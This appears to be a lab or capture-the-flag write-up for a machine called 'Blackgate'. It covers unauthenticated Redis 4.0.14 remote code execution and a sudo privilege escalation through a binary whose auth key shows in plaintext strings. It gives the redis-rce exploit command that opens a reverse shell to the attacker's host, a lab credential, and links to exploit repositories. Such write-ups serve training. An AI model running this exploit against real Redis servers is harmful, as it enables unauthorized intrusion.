 # Blackgate \[Hard]

## Report

Redis 4.0.14 allows unauthenticated access and is vulnerable to RCE. Obtain reverse shell and user 'prudence' can run a binary 'redis-status' as sudo but asks for an authorization key. Reading strings of binary file exposes password in plaintext and we see binary is running 'systemctl' which is abused to become root.

## Enumeration

192.168.106.176

{% embed url="https://hackviser.com/tactics/pentesting/services/redis" %}

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

Redis key-value store 4.0.14

`dir at /tmp`

## Loot

### Attack Vectors

SSH key insertion didn't work (Permission denied) and online reverse shell wouldn't work cus we don't have a HTTP port to work with, hence run the exploit

`python3 redis-rce.py -L 192.168.45.236 -r 192.168.106.176 -f module.so`

### PrivEsc

`redis.conf`

```
# requirepass foobared
```

```
User prudence may run the following commands on blackgate:
    (root) NOPASSWD: /usr/local/bin/redis-status
```

<div align="left"><figure><img src="../../.gitbook/assets/image (123).png" alt="" width="405"><figcaption></figcaption></figure></div>

Normally as per google, authorization key is stored at 'redis.conf' but as we can see it is commented out, check your binary strings next time

### Creds

`Reddis_Auth:ClimbingParrotKickingDonkey321`

### Proof

{% embed url="https://github.com/Ridter/redis-rce?tab=readme-ov-file" %}

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}
